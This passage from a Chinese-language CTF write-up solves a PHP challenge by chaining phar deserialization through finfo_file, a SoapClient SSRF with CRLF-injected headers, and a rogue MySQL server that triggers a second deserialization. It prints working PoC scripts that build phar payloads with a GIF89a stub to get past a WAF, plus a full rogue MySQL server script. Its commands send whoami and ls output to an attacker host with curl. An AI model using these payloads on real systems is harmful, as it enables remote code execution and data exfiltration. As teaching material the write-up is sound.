        $admin = new Ad($cmd, $clazz, $func1, $func2, $func3, $arg1, $arg2, $arg3);
        $admin->check();
    }
}
else {
    echo "You r not admin!";
}
```

我们看到命令执行的点，说明这是最终要达到的目的在这执行命令。
class.php

```
<?php
include 'config.php';
class File{
    public $file_name;
    public $type;
    public $func = "Check";   //$func=SoapClient
    function __construct($file_name){  //$this->file_name=phar://phar.phar
        $this->file_name = $file_name;
    }
    function __wakeup(){//该类必须在反序列化后才能触发
        $class = new ReflectionClass($this->func);  //创建反射类，建立这个类(参数)的反射类  
        $a = $class->newInstanceArgs($this->file_name); //调用newInstanceArgs方法，相当于实例化类,相当于new SoapClient($this->file_name)
        // var_dump($this->file_name);
        $a->check();//调用不存在的check方法，发起soap请求，造成ssrf访问本地
    }

    function getMIME(){
        $finfo = finfo_open(FILEINFO_MIME_TYPE); //返回mime类型
        $this->type = finfo_file($finfo, $this->file_name);  //finfo_file触发phar反序列化
        //var_dump($this->type);
        finfo_close($finfo);
    }
    .....
```

看到一处命令执行，看样我们需要触发`__destruct()`方法从而执行命令，触发它也很简单只需要传参访问admin.php就行了，难点就是admin.php只能本地访问，只能往ssrf上想了。
这里想到SoapClient反序列化，恰好这个File类又存在`__wakeup`函数，因此在反序列化时将会通过反射类机制实现类的实例化，并且调用类对象的`check`的函数，这里我们可以通过`$this->func=“SoapClient"`，`$this->file_name`为`new SoapClient(null,payload)`中的payload传入即可，并且调用不存在的`check`函数，从而会调用SoapClient类中的`__call`方法，发起soap请求，这个知识点具体可以参考https://blog.csdn.net/qq_42181428/article/details/100569464
然后由文件上传我们可以想到上传一个phar文件，通过读取phar触发反序列化，然后发现在class.php中`getMIME()`方法调用一个`finfo_file()`，这个方法是可以触发phar反序列化的。
**思路：**
1.上传phar文件，通过`"GIF89a" . "< language='php'>__HALT_COMPILER();</>"`绕waf
2.上传后访问phar文件，通过`php://filter/resource=phar://upload/.../..jpg`绕waf，从而触发反序列化
3.触发后php对象SoapClient触发`__call`方法，调用我们构造好的数据包，发起soap请求从而造成ssrf访问本地执行命令。
**poc.php**

```
<?php
class File{
    public $file_name = "";
    public $func = "SoapClient";//php内置对象

    function __construct(){ //构造数据包访问本地admin.php，vps监听端口
        $target = "http://127.0.0.1/upload2/admin.php";
        $post_string = 'admin=1&cmd=curl "http://vps:8123" -d `whoami`&clazz=SplStack&func1=push&func2=push&func3=push&arg1=123456&arg2=123456&arg3='. "\r\n";
        $headers = [
            'X-Forwarded-For: 127.0.0.1',
        ];
        $this->file_name  = [
            null,
            array('location' => $target,
                  'user_agent'=> str_replace('^^', "\r\n", 'xxxxx^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length: '. (string)strlen($post_string).'^^^^'.$post_string),
                  'uri'=>'hello')
        ];
    }
}
$phar = new Phar('test.phar');
$phar->startBuffering();
$phar->addFromString('test.txt','test');
$phar->setStub("GIF89a" . "< language='php'>__HALT_COMPILER();</>");
$object = new File;
$phar->setMetadata($object);
$phar->stopBuffering();
echo urlencode(serialize($object));
```



当然这个题解只是非预期解，因为在admin.php中触发命令执行的析构函数`__destruct`，会在程序执行结束销毁对象后执行一次，所以在造成ssrf会自动命令执行，而出题师傅想考的是mysql服务伪造，客户端读取文件触发反序列化造成命令执行，所以将`__destruct`改为了`__wakeup`函数。

**预期解思路：**
这里将环境中`__destruct`改为了`__wakeup`函数。
步骤和上面大致一样：
1.上传phar文件，通过`"GIF89a" . "< language='php'>__HALT_COMPILER();</>"`绕waf
2.上传后访问phar文件，通过`php://filter/resource=phar://upload/.../..jpg`绕waf，从而触发反序列化
3.触发后php对象SoapClient触发`__call`方法，调用我们构造好的数据包，发起soap请求从而造成ssrf访问本地，但现在是不会执行命令的，中间有个细节，此时调用admin.php中check方法mysql客户端执行任意语句读取phar文件内容触发反序列化执行`__wakeup`函数造成命令执行。但要注意的是这个phar文件并不是上一个，当然可以放在一块上传，这里触发的是admin.php中的Ad类，只有反序列化Ad对象才会触发Ad类中的`__wakeup`方法执行命令，也就是说整个过程共有两次反序列化。

将上面poc中的`$post_string`修改

```
$post_string = 'admin=1&cmd=curl "vps:8123" -d `ls`&clazz=Mysqli&func1=init&arg1=&func2=real_connect&arg2[0]=vps&arg2[1]=root&arg2[2]=root&arg2[3]=test&arg2[4]=3307&func3=query&arg3=select%201';
```

它对应admin.php中的(源码有改动，github里为题目源码)

```
function check(){

        $reflect = new ReflectionClass($this->clazz); //Mysqli
        $this->instance = $reflect->newInstanceArgs(); //创建Mysqli对象

        $reflectionMethod = new ReflectionMethod($this->clazz, $this->func1);//Mysqli init
        $reflectionMethod->invoke($this->instance, $this->arg1);
        //相当于调用Mysqli类中的init方法，传参arg1

        $reflectionMethod = new ReflectionMethod($this->clazz, $this->func2);//Mysqli real_connect
        $reflectionMethod->invoke($this->instance, $this->arg2[0], $this->arg2[1], $this->arg2[2], $this->arg2[3], $this->arg2[4]);
        //传参arg2[0]=vps&arg2[1]=root&arg2[2]=123&arg2[3]=test&arg2[4]=3307

        $reflectionMethod = new ReflectionMethod($this->clazz, $this->func3);//Mysqli query
        $reflectionMethod->invoke($this->instance, $this->arg3);//select%201  触发反序列化
```

相当于，在前面讲过的

```
$m = new mysqli();
$m->init(); 
$m->real_connect('ip','数据库账号','数据库密码','数据库',3306); 
$m->query('select 1;')//执行的sql语句
```

poc2.php

```
<?php
class Ad{
public $cmd='curl "vps:8123" -d `ls`';
function __construct($cmd){
    $this->cmd = $cmd;
}
}
$phar = new Phar("phar3.phar"); //后缀名必须为phar
$phar->startBuffering();
$phar->setStub("GIF89a" . "< language='php'>__HALT_COMPILER();</>"); //设置stub
$cmd='curl "vps:8123" -d `ls`';
$o = new Ad($cmd);
$phar->setMetadata($o); //将自定义的meta-data存入manifest
$phar->addFromString("test.txt", "test"); 
    //签名自动计算
$phar->stopBuffering();
```

然后用上面那个mysql服务伪造的项目，就是上面这个脚本生成的phar ，将这个上传上去，读取文件为phar://./upload/xxxx，监听端口。
我这里用的项目也是网上一位师傅写的，上面github那个也行。

```
#coding=utf-8 
import socket
import logging
logging.basicConfig(level=logging.DEBUG)

#@输出内容
#λ python rogue_mysql_server4.py
#INFO:root:Conn from: ('127.0.0.1', 54329)
#INFO:root:auth okay
#INFO:root:want file...
#INFO:root:§  ☻admin:111   ♥

filename="phar://./upload/18ef1db49e789cf6d6fab4663bd7b8e4/fa989130adeb8e5fff543fc55c13cc08.gif"  #修改文件路径
sv=socket.socket()
sv.bind(("",3307))  #修改端口随意，要和前面脚本数据库端口一致
sv.listen(5)
conn,address=sv.accept()
logging.info('Conn from: %r', address)
conn.sendall("\x4a\x00\x00\x00\x0a\x35\x2e\x35\x2e\x35\x33\x00\x17\x00\x00\x00\x6e\x7a\x3b\x54\x76\x73\x61\x6a\x00\xff\xf7\x21\x02\x00\x0f\x80\x15\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x70\x76\x21\x3d\x50\x5c\x5a\x32\x2a\x7a\x49\x3f\x00\x6d\x79\x73\x71\x6c\x5f\x6e\x61\x74\x69\x76\x65\x5f\x70\x61\x73\x73\x77\x6f\x72\x64\x00")
conn.recv(9999)
logging.info("auth okay")
conn.sendall("\x07\x00\x00\x02\x00\x00\x00\x02\x00\x00\x00")
conn.recv(9999)
logging.info("want file...")
wantfile=chr(len(filename)+1)+"\x00\x00\x01\xFB"+filename
conn.sendall(wantfile)
content=conn.recv(9999)
logging.info(content)
conn.close()
```



## 文末

之前对phar反序列化和mysql客户端读取文件原理一直很模糊不清，通过了解原理以及将两者结合去实践后才算对这两个知识点有了较为熟悉的认识。

参考文章：
https://paper.seebug.org/680/#22-demo
[http://www.lmxspace.com/2018/11/07/%E9%87%8D%E6%96%B0%E8%AE%A4%E8%AF%86%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96-Phar/](http://www.lmxspace.com/2018/11/07/重新认识反序列化-Phar/)
https://www.cnblogs.com/wfzWebSecuity/p/11373037.html